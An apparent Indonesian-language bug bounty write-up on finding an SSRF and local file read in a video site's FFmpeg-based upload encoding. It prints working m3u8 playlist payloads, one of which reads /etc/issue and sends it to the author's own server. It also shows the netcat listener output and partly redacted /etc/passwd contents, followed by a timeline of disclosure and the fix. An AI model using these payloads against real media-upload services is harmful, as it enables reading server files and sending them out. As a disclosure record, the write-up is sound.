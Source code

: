 ```yaml
---
layout: project
title: XHamster SSRF Vulnerabillity
author: xhellc0de
category: penetration testing
tags: [ssrf, ffmpeg]
---
```


XHamster merupakan situs streaming video dewasa yang cukup besar. Konten-konten menarik pada situs tersebut merupakan kontribusi dari para member XHamster, dengan kata lain, para member meng-upload video mereka ke situs tersebut. Bagi para Bounty Hunter, fitur upload terlihat seperti tambang emas yang siap untuk digali :) Maka dari itu, saya pun tertarik untuk mencoba mencari celah keamanan pada situs XHamster.

Seperti pada situs streaming lainnya, setiap video yang diupload, kemungkinan besar di-encode terlebih dahulu sebelum kemudian disajikan ke pengunjung. Kebanyakan situs video streaming menggunakan FFMPEG untuk encoding video pada situs mereka. Maka saya mencoba apakah benar XHamster menggunakan FFMPEG, dan apakah terdapat celah disana.

Pertama saya melakukan pengetesan sederhana dengan mengupload sebuah file video yang telah disisipi payload berikut:
```
#EXTM3U
#EXT-X-MEDIA-SEQUENCE:0
#EXTINF:1.0,
http://noobsec.org:1337/tes_ssrf
#EXT-X-ENDLIST
```

Setelah itu, listen di server pada port 1337, dan benar saya muncul response dari server XHamster:
```
[xhellc0de@noobsec.org ~]# nc -lv 1337
Connection from 88.208.16.193 port 1337 [tcp/menandmice-dns] accepted
GET /tes_ssrf HTTP/1.1
User-Agent: Lavf/56.x.x
Accept: */*
Connection: close
Host: noobsec.org:1337
Icy-MetaData: 1
```

Melihat dari response tersebut, maka saya berasumsi bahwa FFMPEG yang digunakan kemungkinan memiliki celah. Maka saya melanjutkan penetrasi lebih dalam untuk mencoba melihat file yang ada di server.

Saya sedikit memodifikasi file video yang akan diupload dan membuat 1 file baru dengan nama header.m3u8, dengan isi:

ssrv.avi
```
#EXTM3U
#EXT-X-MEDIA-SEQUENCE:0
#EXTINF:1.0,
concat:http://noobsec.org:1337/header.m3u8|file:///etc/issue
#EXT-X-ENDLIST
```

header.m3u8	
```
#EXTM3U
#EXT-X-MEDIA-SEQUENCE:0
#EXTINF:,
http://noobsec.org:1337/ssrf_result?
```

Setelah diupload, dan kembali melakukan listen di server, maka muncul response seperti berikut:
```
[xhellc0de@noobsec.org ~]# nc -lv 1337
Connection from 88.208.16.193 port 1337 [tcp/menandmice-dns] accepted
GET /ssrf_result?Debian+GNU/Linux+8+\n+\l HTTP/1.1
User-Agent: Lavf/56.x.x
Accept: */*
Connection: close
Host: noobsec.org:1337
Icy-MetaData: 1
```

Dapat dilihat bahwa isi dari file /etc/issue adalah: Debian GNU/Linux 8 \n \l

Untuk bukti yang lebih kuat, maka saya mencoba untuk melihat file lain yang ada di server XHamster. Dengan sedikit modifikasi di payload, saya berhasil mengambil isi file /etc/passwd

```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
[ redacted ]
messagebus:x:104:107::/var/run/dbus:/bin/false
www:x:999:999::/home/www:/bin/sh
xhamster:x:998:998::/home/xhamster:/bin/sh
[ redacted ]
```

Saya mencoba untuk mengambil isi file-file lain seperti 000-default.conf dan file default lainnya, namun sepertinya XHamster tidak menggunakan default settings, dan saya kesulitan untuk menebak path dari file yang ada pada server mereka.

Untuk itu, saya rasa cukup sejauh ini penetrasi yang dilakukan dan saya langsung menghubungi XHamster terkait isu tersebut.

Referensi: https://www.blackhat.com/docs/us-16/materials/us-16-Ermishkin-Viral-Video-Exploiting-Ssrf-In-Video-Converters.pdf

Timeline:
15 Agustus 2017 14:00 : Celah keamanan ditemukan
15 Agustus 2017 15:30 : Celah keamanan dilaporkan ke XHamster
15 Agustus 2017 16:15 : XHamster mengkonfirmasi bahwa celah keamanan tersebut valid
15 Agustus 2017 16:53 : XHamster menyatakan sedang melakukan perbaikan pada celah tersebut
15 Agustus 2017 21:40 : XHamster memberikan reward atas celah yang ditemukan
17 Agustus 2017 10:59 : Celah telah diperbaiki
